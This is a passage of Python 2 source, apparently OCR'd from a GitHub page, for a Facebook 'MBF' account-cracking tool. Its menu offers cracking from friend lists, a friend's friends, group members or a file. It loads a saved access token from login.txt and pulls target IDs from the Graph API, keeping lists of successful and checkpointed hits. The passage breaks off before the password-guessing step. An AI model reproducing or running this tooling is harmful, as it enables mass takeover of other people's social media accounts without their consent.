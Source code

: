 def success():
	print
	print 42*"\033[1;97m═"
	###sucessful
	for b in sucessful:
		print(b)
	###CHECK
	for c in checkpoint:
		print(c)
	###action_failed
	print 42*"\033[1;97m═"
	print ("\033[31m[x] Failed \033[1;97m--> " + str(len(action_failed)))
	exit()

############### SUPER MBF ################
def super():
	global fb_token
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.0)
		login()
	os.system('clear')
	print logo
	print "\033[1;97m║--\033[1;91m> \033[1;92m1.\033[1;97m Crack with list friend"
	print "\033[1;97m║--\033[1;91m> \033[1;92m2.\033[1;97m Crack from friend"
	print "\033[1;97m║--\033[1;91m> \033[1;92m3.\033[1;97m Crack from member group"
        print "\033[1;97m║--\033[1;91m> \033[1;92m4.\033[1;97m Crack from File"
	print "\033[1;97m║--\033[1;91m> \033[1;91m0.\033[1;97m Back"
	print "║"
	choices_super()

def choices_super():
	peak = raw_input("\033[1;97m╚═\033[1;91m>>> \033[1;97m")
	if peak =="":
		print "\033[1;91m[!] Wrong input"
		choices_super()
	elif peak =="1":
		os.system('clear')
		print logo
		mkdir('\033[1;91m[✺] \033[1;92mGet all friend id \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+fb_token)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;91m[+] \033[1;92mInput ID friend \033[1;91m: \033[1;97m")
		try:
			seat = requests.get("https://graph.facebook.com/"+idt+"?access_token="+fb_token)
			op = json.loads(seat.text)
			print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom\033[1;91m :\033[1;97m "+op["name"]
		except KeyError:
			print"\033[1;91m[!] Friend not found"
			raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
			super()
		mkdir('\033[1;91m[✺] \033[1;92mGet all id from friend \033[1;97m...')
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+fb_token)
		z = json.loads(r.text)
		for i in z['data']: